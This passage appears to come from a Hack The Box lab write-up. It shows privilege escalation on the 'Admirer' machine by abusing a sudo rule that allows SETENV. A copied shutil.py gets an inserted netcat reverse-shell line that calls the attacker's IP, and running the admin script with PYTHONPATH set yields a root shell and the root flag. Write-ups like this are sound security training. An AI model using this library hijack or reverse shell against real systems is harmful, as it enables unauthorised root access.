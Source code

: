 ## Privesc

Waldo can run `/opt/scripts/admin_tasks.sh` as any user. The sudo command is configured to accept environment variables (SETENV).

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

In `/var/tmp/snow` I'll copy shutil.py, add a system call to execute netcat then hijack the library import by setting the PYTHONVARIABLE to this directory.

```python
def make_archive(base_name, format, root_dir=None, base_dir=None, verbose=0,
                 dry_run=0, owner=None, group=None, logger=None):
[...]

    os.system("/bin/nc -e /bin/bash 10.10.14.22 443")
    save_cwd = os.getcwd()
```

Execution:

```
waldo@admirer:/var/tmp/snow$ sudo -E PYTHONPATH=/var/tmp/snow /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```

Shell:

```
root@kali:~/htb/admirer# rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.187] 40322
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
f24b1746556cc00321b58a6f6842bed7
```

